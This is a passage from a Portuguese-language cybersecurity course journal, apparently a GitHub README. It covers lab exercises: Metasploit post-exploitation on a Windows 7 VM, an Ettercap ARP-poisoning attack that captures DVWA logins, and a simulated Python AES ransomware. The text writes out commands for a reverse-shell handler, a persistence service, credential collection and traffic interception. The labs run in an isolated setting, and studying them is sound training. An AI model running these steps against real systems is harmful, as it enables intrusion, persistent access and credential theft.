No **Metasploit** existem diversos módulos voltados à extração de informações e dados, tais como extração de credenciais, escalonamento de privilégios, captura de informações e espionagem de dados. No console do **Metasploit** no **Kali**, a sessão em uso foi jogada para segundo plano. Em seguida, carregou-se o módulo `use post/windows/manage/migrate` e suas opções foram verificadas com `show options`. Esse módulo exigia uma sessão já estabelecida e automatizava a migração para outro processo.  

Como a migração havia sido feita manualmente durante o escalonamento de privilégios, desta vez automatizou-se o procedimento definindo a sessão privilegiada com `set session 2` e executando o módulo com `run`, o que provocou a migração para outro PID. Ao retornar à sessão com `sessions 2`, todos os processos foram listados com `ps` para identificar o processo alvo da migração. A imagem 14 mostra que a sessão migrou para o PID `2696`, correspondente ao **Notepad**.

<figure>
     
    <figcaption>Imagem 14.</figcaption>
</figure>
 

Foram testados vários outros módulos do **Metasploit**, sempre seguindo a mesma sequência: `use` para selecionar o módulo, `show options` para conferir as configurações, `set session` para indicar a sessão alvo, e `run` ou `exploit` para executá-lo — além de outras configurações com `set`, quando exigidas. Abaixo está a lista dos módulos testados e o propósito de cada um:
- `use post/windows/gather/checkvm`, `set session 2`, `run`: identificava que a máquina alvo era uma máquina virtual (Imagem 15).  
- `use post/windows/gather/enum_shares`, `set session 2`, `exploit`: enumerava pastas compartilhadas; não sendo encontrada nenhuma (Imagem 15).
- `use post/windows/gather/enum_applications`, `set session 2`, `run`: listava algumas aplicações e processos em execução (Imagem 15).  
- `use post/windows/gather/dumplinks`, `set session 2`, `run`: coletava os links e arquivos acessados pelo usuário (Imagem 15).  
- `use post/windows/gather/credentials/credential_collector`, `set session 2`, `run`: capturava credenciais armazenadas no sistema.  
- `use post/windows/gather/arp_scanner`, `set rhosts 192.168.56.1/24`, `set session 2`, `run`: identificava os IPs ativos na rede local.  
- `use post/multi/recon/local_exploit_suggester`, `set SHOWDESCRIPTION true`, `set session 2`, `run`: sugeria exploits apropriados com base na arquitetura e nas informações coletadas da máquina alvo (Imagem 16).  

<figure>
     
    <figcaption>Imagem 15.</figcaption>
</figure>
 

<figure>
     
    <figcaption>Imagem 16.</figcaption>
</figure>
 

Até então, todo o processo era feito manualmente: tanto a criação do handler (listener) na máquina de ataque quanto a geração e execução do artefato malicioso com o payload de shell reverso do **Meterpreter**. O passo seguinte consistiu em automatizar uma dessas etapas do backdoor — a criação do handler — por meio de um arquivo de script. Para isso, o arquivo [meterpreter.rc](./meterpreter.rc) foi criado com `nano meterpreter.rc`, reproduzindo exatamente o mesmo fluxo de execução do listener. A execução do script foi realizada com `msfconsole -r meterpreter.rc`, permitindo estabelecer a conexão com o alvo sem a necessidade de digitar cada comando manualmente. Vale ressaltar que o binário (artefato) contendo o payload precisava estar em execução na VM **Windows 7** para que a sessão fosse aberta. A imagem 17 mostra a sessão sendo estabelecida e enviada para segundo plano a partir do arquivo de script.

<figure>
     
    <figcaption>Imagem 17.</figcaption>
</figure>
 

A última pós-exploração teve como objetivo manter a conexão com a máquina alvo mesmo após reinicializações ou perda da sessão. Para isso, utilizou-se o recurso de *persistence* do **Metasploit**, que permite configurar um **Meterpreter** persistente no sistema comprometido.

Ao abrir o **msfconsole** no **Kali Linux**, observou-se que o encerramento anterior do console havia finalizado todas as sessões ativas. Caso o console ainda estivesse aberto, as três sessões criadas anteriormente apareceriam ao executar `sessions`, sendo a sessão 2 aquela que possuía privilégios administrativos. Se apenas a sessão inicial estivesse presente — sem privilégios elevados — seria necessário repetir o processo de escalonamento de privilégios realizado na primeira pós-exploração deste curso, utilizando o bypass de **UAC**.

Se a sessão inicial também não existisse, ela poderia ser recriada automaticamente pelo script ou manualmente, utilizando os mesmos passos já executados: selecionar o módulo `use exploit/multi/handler`, definir o payload com `set payload windows/meterpreter/reverse_tcp`, configurar o endereço de escuta com `set lhost 192.168.56.101` e a porta com `set lport 4444`, e então executar `exploit`.

Após obter a sessão com privilégios administrativos — no caso, a sessão 2 — ela foi enviada para segundo plano com `background`, pois seria utilizada pelo módulo de persistência, que exigia permissões administrativas para ser executado. O módulo foi selecionado com `use exploit/windows/local/persistence_service`, este instalava um executável na pasta temporária do alvo e configurava uma forma de execução que sobrevivia a reinicializações. As opções foram verificadas com `show options`, definindo a sessão com `set session 2` (a sessão com privilégios administrativos), o host controlador `set lhost 192.168.56.101` e a porta `set lport 2022`. Ao executar `exploit`, foi criada uma nova sessão **Meterpreter** a partir do executável temporário `C:\Users\pedro\AppData\Local\Temp\a.exe`. A imagem 18 apresenta a sessão persistente gerada.

<figure>
     
    <figcaption>Imagem 18.</figcaption>
</figure>
 

Após reiniciar a VM **Windows 7**, confirmou-se que o executável do exploit permaneceu na pasta temporária. Entretanto, as três sessões do **Metasploit** foram encerradas, pois cada uma delas estava vinculada a um processo específico, e todos os processos foram finalizados durante a reinicialização, interrompendo a comunicação.  

Como o executável do exploit permanecia na pasta temporária, ao iniciar o sistema novamente ele era executado automaticamente, iniciando seu processo. Dessa forma, um processo na máquina alvo voltava a tentar se comunicar com a máquina de ataque. Para que a sessão persistente fosse recriada, bastava iniciar um listener na mesma porta configurada (`2022`). Isso poderia ser feito manualmente ou por meio de um script, bastando substituir o comando `set lport 4444` por `set lport 2022`. Dentro da nova sessão **Meterpreter**, utilizou-se o comando `dir` para listar os arquivos do diretório atual, exibindo o executável persistente. A imagem 19 mostra que a sessão persistente foi restabelecida.

<figure>
     
    <figcaption>Imagem 19.</figcaption>
</figure>
 

<a name="item4.3"><h4>4.3 Man in the Middle: Ataques e Mitigações</h4></a>[Back to summary](#item4) | <a href="https://github.com/PedroHeeger/my_tech_journey/blob/main/credentials/certificates/online_courses/cybersecurity/251106_MitM...Ataques..PH_DIO.pdf">Certificate</a>

🕵️ Ataques Man in the Middle   
Os ataques **Man in the Middle (MitM)** consistem em uma técnica na qual o invasor se posiciona entre duas partes que acreditam estar se comunicando diretamente. Dessa forma, o atacante intercepta, altera ou redireciona os dados trocados, podendo monitorar informações sensíveis, manipular conteúdos ou até redirecionar o tráfego para sites falsos. Esse tipo de ataque é considerado uma forma de espionagem digital, pois ocorre sem o conhecimento das vítimas e em tempo real. O fluxo normal de comunicação acontece entre **Cliente ↔ Servidor**, mas em um ataque MitM, o invasor se insere no meio da comunicação: **Cliente ↔ MITM ↔ Servidor**.  

🔑 Conceitos principais   
O ataque Man in the Middle pode ser entendido como um sequestro de sessão, no qual o invasor atua como um retransmissor ou proxy dentro de uma conexão legítima. Assim, é possível capturar dados, modificar mensagens trocadas e até injetar conteúdos maliciosos durante a comunicação. Entre as consequências mais comuns estão o roubo de senhas, acesso a informações bancárias e interceptação de dados pessoais.  

🧰 Ferramentas utilizadas   
Para executar ou analisar ataques do tipo MitM, existem diversas ferramentas que permitem a captura e manipulação de pacotes de rede:  
- **WireShark**: analisador de protocolos que captura pacotes em tempo real, permitindo visualizar o conteúdo detalhado das comunicações de rede.  
- **Ettercap**: suíte voltada para ataques MitM, com recursos de sniffing de conexões, filtragem de conteúdo e dissecção de protocolos em tempo real.  
- **Cain & Abel**: ferramenta clássica de recuperação de senhas e análise de tráfego.  
- **Bettercap**: plataforma moderna para análise e exploração de redes, com suporte a ataques de envenenamento ARP e DNS spoofing.  
- **Máquinas virtuais**: usadas em ambientes controlados para testar e estudar esses tipos de ataques de forma segura.  

📡 Wireshark   
O **Wireshark** é um software open source amplamente utilizado para análise de tráfego de rede. Ele atua como um *sniffer*, capturando pacotes que trafegam pela camada TCP/IP e permitindo examinar detalhadamente os dados transmitidos.  
Principais recursos do Wireshark:  
- **Captura de pacotes:** monitora o tráfego de rede em tempo real.  
- **Filtragem:** permite aplicar filtros para isolar pacotes específicos de interesse.  
- **Visualização:** exibe de forma estruturada o conteúdo de cada pacote, facilitando a análise e o diagnóstico.  

💻 Ettercap   
O **Ettercap** é uma ferramenta poderosa para execução de ataques Man in the Middle, oferecendo modos de operação variados para diferentes cenários de rede. Ele suporta sniffing ativo e passivo, filtragem de conteúdo e análise detalhada de protocolos.  

Modos de operação:  
- **Baseado em IP:** filtra pacotes conforme os endereços IP de origem e destino.  
- **MAC:** analisa pacotes de acordo com o endereço físico (MAC address), útil em conexões via gateway.  
- **ARP:** utiliza o envenenamento ARP (ARP Poisoning) para interceptar comunicações entre dois hosts em uma rede local (full-duplex).  
- **PublicARP:** realiza o envenenamento ARP para capturar tráfego de um host específico para todos os outros da rede (half-duplex).  

💣 Conclusão   
Os ataques Man in the Middle estão entre os mais críticos na área de segurança da informação devido ao seu alto potencial de danos. Eles comprometem a confidencialidade e integridade das comunicações, podendo resultar em graves violações de privacidade e perdas financeiras. O estudo e a prática controlada dessas técnicas em ambientes laboratoriais são essenciais para compreender seus mecanismos e desenvolver medidas de defesa eficazes.

##### Parte Prática

Para a parte prática deste curso foram utilizadas as máquinas virtuais **Kali Linux** e **Metasploitable** no **Oracle VM VirtualBox**. No **Kali Linux**, a interface em uso devia estar conectada à rede *host-only*; caso estivesse desconectada, alternava-se para ela com `nmcli device connect eth1`. No navegador do **Kali**, acessou-se a aplicação web vulnerável **DVWA** hospedada no **Metasploitable** pelo endereço `http://192.168.56.102/dvwa`, conforme imagem 20.

<figure>
     
    <figcaption>Imagem 20.</figcaption>
</figure>
 

O **Wireshark** também foi utilizado no **Kali** via interface gráfica. Nele, a interface conectada (host-only — `eth1`) foi selecionada. Embora fosse possível ajustar diversas opções em `Capture Options`, manteve-se a configuração padrão e iniciou-se a captura. As janelas do **Wireshark** e da **DVWA** foram dispostas lado a lado para acompanhar em tempo real o tráfego gerado. Ao atualizar a página de login da **DVWA**, o **Wireshark** passou a registrar os pacotes trocados. A imagem 21 mostra essa primeira captura.

<figure>
     
    <figcaption>Imagem 21.</figcaption>
</figure>
 

Foi selecionado um pacote do tipo `GET` para inspeção das informações. Em seguida, o formulário de login da **DVWA** foi preenchido com `admin:password` e enviado. A autenticação foi processada e os dados submetidos foram capturados pelo **Wireshark**. Para localizar as credenciais capturadas, aplicou-se o filtro `http.request.method == "POST"`, que isolou a única requisição `POST`. Ao selecionar esse pacote, expandiu-se a seção `HTML Form URL Encoded` nas informações do pacote, revelando o `username` e o `password` utilizados. A imagem 22 ilustra essa captura.

<figure>
     
    <figcaption>Imagem 22.</figcaption>
</figure>
 

Essa informação foi capturada porque a **DVWA** utilizava uma conexão não criptografada — protocolo HTTP em vez de HTTPS. Além do filtro por método de requisição usado anteriormente, também aplicou-se um filtro por endereço IP da máquina **Kali** com `ip.addr == 192.168.56.102`, isolando apenas os pacotes originados ou destinados a esse host. A imagem 23 mostra os pacotes resultantes desse filtro.

<figure>
     
    <figcaption>Imagem 23.</figcaption>
</figure>
 

O próximo passo foi utilizar o **Ettercap**, ferramenta já incluída no **Kali Linux**, para executar um ataque Man-in-the-Middle (MitM). O **Ettercap** oferece funcionalidades de captura semelhantes ao **Wireshark**, além de recursos ativos de manipulação de tráfego. A interface gráfica foi iniciada com `ettercap -G`. Para a atividade, foi necessário ligar a VM **Windows 7**, pois a simulação contou com três papéis: cliente (**Windows 7**), servidor (**Metasploitable**) e o MitM (**Kali Linux**) — todos na mesma rede *host-only*.

O ataque empregado foi o envenenamento de ARP, que força as vítimas a redirecionarem seu tráfego para o atacante ao manipular as entradas do cache ARP. Em termos simples, o ARP (Address Resolution Protocol) resolve endereços IP para endereços MAC; ao enviar respostas ARP falsificadas, o atacante faz com que o IP de um host passe a apontar para o seu próprio MAC, centrando assim o tráfego no MitM e confundindo as partes comunicantes.

No **Ettercap** desativou-se o sniffing automático ao iniciar e a interface de rede `eth1` (host-only) foi selecionada. O modo de sniffing *bridged* permaneceu desativado. Após confirmar essas configurações iniciais, o primeiro passo foi escanear os hosts, já que a *hostlist* estava vazia — o scan foi acionado pelo ícone de lupa e os hosts visualizados no ícone ao lado. O **Ettercap** adicionou automaticamente os hosts encontrados à *hostlist*. Nesse caso, foram identificados quatro hosts: as três máquinas utilizadas no exercício e o servidor DHCP da rede *host-only*. A imagem 24 exibe a *hostlist* resultante.

<figure>
     
    <figcaption>Imagem 24.</figcaption>
</figure>
 

O host `192.168.56.102` (VM **Metasploitable**) foi adicionado como *Target 1*, e o host `192.168.56.103` (VM **Windows 7**) foi definido como *Target 2*. Essas duas máquinas representavam, respectivamente, o servidor e o cliente — a ordem de adição dos targets não afetava o ataque. Para verificar os alvos definidos, abriu-se o menu de reticências verticais e selecionou-se `Targets` → `Current Targets`, conforme mostrado na imagem 25.

<figure>
     
    <figcaption>Imagem 25.</figcaption>
</figure>
 

No terminal, habilitou-se o encaminhamento de pacotes com `sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'` — por padrão esse valor é `0` (desabilitado) e, ao torná-lo `1`, permitia-se o redirecionamento de tráfego. Em seguida,o envenenamento ARP foi configurado para manipular as tabelas ARP dos hosts e capturar o tráfego entre eles: no **Ettercap** abriu-se o menu (ícone de globo), selecionou-se `ARP poisoning`, marcando a opção `Sniff remote connections` e confirmando. Assim, o tráfego entre o **Windows 7** e o **Metasploitable** passou a ser encaminhado para o **Kali**.  

Antes de iniciar o ataque, iniciou-se a captura no **Wireshark** para monitorar o tráfego; depois o ataque no **Ettercap** foi acionado pelo botão de play. No **Wireshark** o filtro `arp` foi aplicado para visualizar os pacotes gerados pelo envenenamento. A imagem 26 mostrava os pacotes capturados.

<figure>
     
    <figcaption>Imagem 26.</figcaption>
</figure>
 

No **DVWA**, acessível em `http://192.168.56.102/dvwa` a partir do **Windows 7**, realizou-se o login com `admin:password`. Imediatamente essa credencial foi capturada pelo **Ettercap** e exibida em seu terminal, conforme ilustrado na imagem 27.

<figure>
     
    <figcaption>Imagem 27.</figcaption>
</figure>
 

<a name="item4.4"><h4>4.4 Desafio de projeto: Entendendo um Ransomware na Prática com Python</h4></a>[Back to summary](#item4) | <a href="https://github.com/PedroHeeger/my_tech_journey/blob/main/credentials/certificates/online_courses/cybersecurity/251109_DP...Ransomware...Python_PH_DIO.pdf">Certificate</a>

Neste desafio de projeto o objetivo foi criar dois arquivos em **Python** que criptografavam e descriptografavam o conteúdo de um terceiro arquivo de texto, simulando um ransomware. Os dois scripts utilizavam as bibliotecas `os` e `pyaes`. Da `pyaes` foi empregado o **Advanced Encryption Standard (AES)**, algoritmo de cifra simétrica padronizado pelo NIST. O **AES** cifra blocos de 128 bits e aceita chaves de 128, 192 ou 256 bits. No código, o **AES** foi usado no modo `CTR` (Counter), que gera um fluxo de bytes a partir de contadores criptografados — o chamado `keystream` — e combina esse fluxo com o conteúdo do arquivo por meio da operação `XOR`, funcionamento semelhante ao de um cifrador por fluxo. Em termos práticos, o binário do conteúdo é misturado, byte a byte (ou bit a bit), com o binário do `keystream`: cada byte do dado é `XOR`ado com o correspondente byte do `keystream`. A operação `XOR` resulta em `1` apenas quando os bits de entrada são diferentes, e aplicar `XOR` duas vezes com o mesmo `keystream` reverte o processo (criptografia ⇄ descriptografia). A chave utilizada foi `testeransomwares`, com 16 bytes (128 bits).

Os arquivos, chamados [encrypter.py](./dp_ransomware/encrypter.py) e [decrypter.py](./dp_ransomware/decrypter.py), eram muito parecidos. Basicamente, eles acessavam o arquivo [teste.txt](./dp_ransomware/teste.txt) (ou `teste.txt.ransomwaretroll`), liam seu conteúdo e deletavam o arquivo original. A informação lida era armazenada em memória e utilizada para criptografar ou descriptografar. Em seguida, criava-se um novo arquivo onde o dado processado era salvo, concluindo o processo.

O arquivo de texto — tanto antes quanto depois da criptografia — era sempre procurado e salvo na pasta corrente, ou seja, na pasta onde o código **Python** era executado. Por isso, criou-se uma pasta dedicada com `mkdir dp_ransomware` no **Kali Linux**, acessou-se ela com `cd dp_ransomware` e então foram construídos os três arquivos. Para checar o conteúdo antes da encriptação, utilizou-se `cat teste.txt`. A imagem 28 mostra os três arquivos na pasta e o conteúdo de `teste.txt` antes de ser criptografado.

<figure>
     
    <figcaption>Imagem 28.</figcaption>
</figure>
 

Antes da execução do script, foi necessário configurar algumas definições. Como os dois arquivos utilizavam a biblioteca **pyaes**, era preciso instalá‑la. Contudo, o **Kali Linux** impedia a instalação de bibliotecas **Python** globalmente. Portanto, foi necessário usar o módulo **virtualenv (venv)**, que cria ambientes virtuais para **Python**. O **Kali** já possuía esse módulo; caso não possuísse, o comando para instalá‑lo era `sudo apt install python3-venv`. Após isso, o ambiente virtual foi criado na pasta do projeto com `python3 -m venv ~/dp_ransomware`. Com `source ~/dp_ransomware/bin/activate` o ambiente foi ativado, o que foi confirmado por `echo "$VIRTUAL_ENV"`. Para desativar, usava‑se `deactivate`. Dessa forma, todas as dependências Python passaram a ser instaladas apenas naquele diretório do projeto. O **pyaes** foi instalado com `pip install pyaes`, permitindo a continuação do desenvolvimento do projeto.

Com o comando `python3 -m pip list` eram listadas todas as bibliotecas instaladas naquele ambiente virtual. Apesar de a biblioteca **os** não aparecer nessa lista, ela faz parte da biblioteca padrão do **Python** e está sempre disponível dentro do **virtualenv**, pois o ambiente virtual reutiliza a biblioteca padrão da instalação do **Python** do sistema.

Após essa etapa, executou-se o script de criptografia com `python encrypter.py`. O conteúdo do arquivo criptografado foi verificado com `ls` e `cat teste.txt.ransomwaretroll`, conforme imagem 29. Para restaurar o arquivo original, executou-se `python decrypter.py` e, em seguida, conferiu-se o resultado com `ls` e `cat teste.txt`, como mostrado na imagem 30.

<figure>
     
    <figcaption>Imagem 29.</figcaption>
</figure>
 

<figure>
     
    <figcaption>Imagem 30.</figcaption>
</figure>
 

